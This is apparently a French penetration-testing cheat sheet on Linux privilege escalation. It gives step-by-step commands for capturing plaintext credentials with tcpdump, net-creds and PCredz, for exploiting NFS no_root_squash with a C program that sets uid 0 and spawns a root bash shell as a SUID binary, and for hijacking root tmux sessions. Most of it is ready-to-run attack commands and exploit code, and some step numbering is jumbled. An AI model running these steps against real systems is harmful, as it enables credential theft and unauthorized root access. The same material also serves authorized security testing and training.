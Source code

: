 
- [[#Sniffing Tcpdump / Net-Creds / PCredz (Sudo)]]
- [[#Weak NFS Privileges]]
- [[#Hijacking Tmux Sessions]]

---
# Sniffing Tcpdump / Net-Creds / PCredz (Sudo)


1. Lancer Tcpdump afin de capturer le trafic.

```
sudo tcpdump -i ens224 
```

2. Lancer net-creds sur le pcap afin d'identifier tous les identifiants en clair https://github.com/DanMcInerney/net-creds

```
python net-creds.py -p pcapfile
```

Pcredz -> https://github.com/lgandx/PCredz

```
python3 ./Pcredz -f file-to-parse.pcap
```



---
# Weak NFS Privileges

|Option|Description|
|---|---|
|`root_squash`|If the root user is used to access NFS shares, it will be changed to the `nfsnobody` user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the `nfsnobody` user, which prevents an attacker from uploading binaries with the SUID bit set.|
|`no_root_squash`|Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.|

> [!TIP]
> Check si NFS avec de faibles privilèges (no_root_squash) -> création de binaire avec SUID root sur le partage possible.
> Le SUID ne fonctionne pas sur les scripts bash

1. Lister les partages NFS

```bash
showmount -e
```

2. Afficher les ACL sur les partages NFS (no_root_squach ?)

```
cat /etc/exports
```

4. Créer un binaire en c qui execute /bin/bash par exemple (suid ne marche pas sur script bash directement)
shell.c
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```


6. Monter le partage NFS sur machine attaquant

```shell
mount -t nfs <ip_target>:/<partage> /mnt
```

6. Copier le .c dans le partage

```shell
cp shell.c /mnt
```

8. Changer le owner / group / setuid sur le binaire compilé depuis attaquant

```sh
sudo chown <id_user> /mnt/shell.c
sudo chgrp <id_user> /mnt/shell.c
```

7. compiler le binaire depuis la target

```
gcc shell.c -o shell
```

8. Changer le owner / group / setuid sur le binaire compilé depuis attaquant

```
sudo chown root /mnt/shell
sudo chgrp root /mnt/shell
sudo chmod u+s /mnt/shell
```

9. Exécuter le binaire depuis la target



---

# Hijacking Tmux Sessions


> [!TIP]
> Check si possible d'hijacker une session Tmux (si lancée en tant que root)

1. Identifier les sessions tmux

```bash
ps aux | grep tmux
```

2. Voir les acl sur la session

```
ls -la /<session>
```

3. Si user fait parti du même groupe -> hijacker la session

```
tmux -S /<session>
```